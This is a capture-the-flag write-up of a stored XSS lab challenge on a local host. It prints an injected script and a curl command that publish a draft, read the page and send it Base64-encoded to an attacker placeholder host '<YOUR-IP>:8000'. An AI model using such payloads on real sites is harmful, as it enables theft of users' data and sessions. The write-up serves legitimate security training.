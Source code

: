 # XSS Challenge Writeup

## Overview
This challenge involves exploiting a Cross-Site Scripting (XSS) vulnerability in a web application. The goal is to inject a malicious script into the application, which, when executed, allows us to exfiltrate the flag. The application has several endpoints, including a login page, a draft page, and a publish page.

### Vulnerability: Cross-Site Scripting (XSS)
The application allows users to post content, which can include HTML and JavaScript. If an attacker manages to inject a malicious script into the content, they can execute arbitrary JavaScript in the context of another user's session.

## Steps to Exploit the Vulnerability

### 1. **Login to the Application**
The first step is to log in to the application. This can be done by sending a `POST` request to the `/login` endpoint with the username and password. The credentials for this challenge are:
- **Username:** hacker
- **Password:** 1337

```bash
curl -c cookies.txt -X POST http://challenge.localhost/login -d 'username=hacker&password=1337'
````

This request will create a session cookie, which is necessary for maintaining an authenticated session across subsequent requests.

### 2. **Submit a Draft with Malicious Script**

Next, we need to submit a draft with a malicious payload. The goal is to inject a script that will be executed when viewed by the victim. The malicious script will send the contents of the `/publish` endpoint to an external server, allowing us to capture the flag.

The script is injected in the `content` field of the `draft` form:

```html
<script>
  fetch("/publish", {method:"POST"})
    .then(() => fetch("/"))
    .then(r => r.text())
    .then(t => {
      fetch("http://<YOUR-IP>:8000/?flag=" + btoa(t))
    })
</script>
```

This script performs the following steps:

1. It triggers the `/publish` endpoint with a `POST` request, marking the draft as published.
2. It then fetches the content of the main page (`/`), which contains the flag.
3. The flag is then sent to the attacker’s server (`http://<YOUR-IP>:8000/`), encoded in Base64 format.

To inject this payload, send a `POST` request to the `/draft` endpoint with the malicious content:

```bash
curl -b cookies.txt -X POST http://challenge.localhost/draft -d 'content=<script>fetch("/publish", {method:"POST"}).then(()=>fetch("/")).then(r=>r.text()).then(t=>{fetch("http://<YOUR-IP>:8000/?flag="+btoa(t))})</script>&publish=on'
```

### 3. **Exfiltrate the Flag**

Once the malicious script is executed, the flag is sent to the attacker’s server. The flag can then be retrieved from the server where the exfiltration was made.

### 4. **Challenges Faced**

* The main challenge was maintaining the session in the `curl` requests. The browser automatically manages the session, while `curl` requires the user to manually manage session cookies using `-c` (to save cookies) and `-b` (to send cookies) options.
* The 403 Forbidden error was encountered when the session cookie was not correctly passed between requests. This was resolved by ensuring the session cookie was sent with the second `curl` request.

### Conclusion

By exploiting the XSS vulnerability, we were able to inject a script that triggered the publishing of a draft and then exfiltrated the flag. The challenge demonstrated how session management, XSS vulnerabilities, and the use of `curl` for exploiting web applications can work together to compromise the server.

## Flag

